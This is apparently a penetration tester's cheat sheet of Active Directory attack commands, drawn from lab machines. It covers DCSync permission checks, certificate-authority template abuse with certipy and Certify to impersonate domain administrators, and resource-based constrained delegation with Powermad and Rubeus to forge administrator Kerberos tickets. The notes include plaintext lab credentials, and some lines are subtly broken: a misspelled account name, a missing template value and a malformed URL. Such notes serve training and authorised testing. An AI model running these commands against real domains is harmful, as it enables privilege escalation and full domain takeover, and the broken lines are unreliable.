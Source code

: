 See who can do dcsync.

```bash
Get-ObjectAcl -DistinguishedName "dc=nagoya-industries,dc=com" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

#### Exploiting Certificate Authority

If LDAP is open, you can try to connect to LDAP through your browser, 'https:10.10.11.202:3269/', and check whether the box is a certificate authority. If it is, you can upload Certify.exe to the machine once you have initial access and exploit it.

You can also see it when you run winpeas towards the end in the certificate section. 

```bash
# This'll give you some information to put into BloodHound
certipy-ad find -u hazel.green -p haze1988 -dc-ip 192.168.165.40
# Vulnerable ?
certipy-ad find -u hazel.green -p haze1988 -dc-ip 192.168.165.40 -stdout -vulnerable
# Molly is basically head Domain Admin. Seems like the quotes made a difference
certipy-ad req -u hazel.green -p haze1988 -target dc.hokkaido-aerospace.com -upn 'molly.smith@hokkaido-aerospace.com' -ca 'hokkaido-aerospace-DC-CA'
certipy req -u hazel.green -p haze1988 -target hokkaido-aerospace.com -upn administrator@hokkaido-aerospace.com -ca hokkaido-aerospace-DC-CA  --template UserAuthentication
```

```bash
# Taken from Certify's Github Page
.\Certify.exe find /vulnerable
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:adminstrator /outfile:C:\Windows\Tasks\cert.pem
certipy-ad req -u hazel.green@hokkaido-aerospace.com -p haze1988 -target-ip dc.hokkaido-aerospace.com -ca 'hokkaido-aerospace-DC-CA' -template 'User' -upn 'Molly.Smith@hokkaido-aerospace.com'
certipy-ad req -u hazel.green -p haze1988 -target-ip dc.hokkaido-aerospace.com -upn Hazel.Green@hokkaido-aerospace.com -ca hokkaido-aerospace-DC-CA -template
# Paste the RSA PRIVATE KEY in cert.pem file
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### GenericAll Exploitation & Using Kerberos Ticket

I discovered this path in BloodHound.

```bash
. .\Powermad.ps1
. .\PowerView.ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe hash /password:Summer2018!
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/attackersystem.support.htb /ptt

# Copy the Base 64 ticket output and transfer it to Windows (because I'm in evil-winrm and using it within Windows isn't working). Remove all spaces in vi with '%s/ //g', decode the base64, then use ticketConverter.py to convert the ticket to a .ccache file that we can use to login as adminsitrator.
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```